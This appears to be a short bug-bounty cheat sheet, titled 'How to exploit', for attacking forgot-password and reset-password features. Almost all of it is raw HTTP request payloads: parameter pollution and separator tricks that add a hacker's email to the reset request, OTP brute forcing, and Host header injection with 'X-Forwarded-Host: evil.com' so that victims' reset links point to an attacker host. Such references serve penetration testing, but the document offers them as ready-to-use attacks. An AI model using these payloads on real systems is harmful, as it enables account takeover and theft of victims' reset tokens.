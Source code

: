 ## Forgot Password Functionality

## Introduction
Some common bugs in the forgot password / reset password functionality

## How to exploit
1. Parameter pollution
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```
to
```
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```
